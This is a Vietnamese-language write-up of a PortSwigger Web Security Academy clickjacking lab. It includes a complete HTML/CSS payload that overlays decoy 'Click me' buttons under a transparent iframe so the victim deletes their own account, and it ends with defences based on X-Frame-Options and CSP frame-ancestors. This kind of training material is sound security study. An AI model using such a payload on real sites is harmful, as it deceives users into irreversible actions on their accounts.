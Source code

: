 >Đăng nhập vào `wiener` và thấy có chức năng **Delete account** tương tự lab đầu tiên: ![image](https://hackmd.io/_uploads/ByrPEXbLC.png)

> Tuy nhiên khi **Delete account** sẽ có thêm 1 bước để xác nhận có muốn xóa hay không? ![image](https://hackmd.io/_uploads/H1WzEXW8R.png)

>=> Ta cần tạo payload chứa 2 button **Click me** và khiến nạn nhân click theo đúng thứ tự **Delete account** → **Yes**

>Tạo payload và thêm các thuộc tính theo thứ tự thực hiện của chúng: 
```
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 850px;
        opacity: 0.000001;
        z-index: 2;
    }
    #first {
        position:absolute;
        top: 509px;
        left: 44px;
        z-index: 1;
    }
    #second {
        position:absolute;
        top: 308px;
        left: 192px;
        z-index: 1;
    }
</style>
<button id="first">Click me first</button>
<button id="second">Click me next</button>
<iframe src="https://0a8100040420c3b5805a356b006900b0.web-security-academy.net/my-account"></iframe>
```

>Căn chỉnh sao cho **Click me first** đè lên **Delete account**: ![image](https://hackmd.io/_uploads/SJAJr7b8C.png)

>và **Click me next** đè lên **Yes**: ![image](https://hackmd.io/_uploads/H1ObrQZUR.png)

>**"Deliver exploit to victim"** và hoàn thành bài lab: ![image](https://hackmd.io/_uploads/rJNXBXWL0.png)

# **Prevent**
1. Using X-Frame-Options: 'deny', 'sameorigin', 'allow-from <URL>'
2. Using Content Security Policy (CSP): frame-ancestors
* More flexible than using the X-Frame-Options header because you can specify multiple domains and use wildcards.
* CSP also validates each frame in the parent frame hierarchy, whereas X-Frame-Options only validates the top-level frame